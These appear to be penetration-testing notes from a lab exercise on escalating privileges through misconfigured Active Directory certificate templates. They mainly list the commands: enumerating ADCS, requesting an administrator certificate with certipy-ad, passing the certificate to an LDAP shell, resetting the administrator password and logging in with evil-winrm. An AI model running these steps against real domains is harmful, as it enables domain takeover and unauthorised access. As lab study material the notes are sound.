# Active Directory Certificate Services (ADCS)

<details>

<summary>What is it?</summary>

* Relies on **misconfigured certificate templates** that allow low-privileged users to enroll for certificates --> used to get Kerberos tickets for higher-privileged accounts

</details>

<details>

<summary>Finding if ADCS is present in domain</summary>

```
nxc ldap 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 -M adcs
```

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```
.\Certify.exe cas
```

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Exploitation</summary>

```bash
# Identify Vulnerable Templates:
.\Certify.exe find /vulnerable
```

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```bash
# Use certipy-ad to request a certificate for domain admin
certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication -dc-ip 10.10.11.202
```

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

```bash
# Download on Kali
wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py

# Seperate into key and certificate files
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt

# Passthecert using ldap-shell option
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain sequel.htb -dc-ip 10.10.11.202
whoami
change_password administrator P@ssw0rd123!

evil-winrm -i dc.sequel.htb -u administrator
```

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

</details>
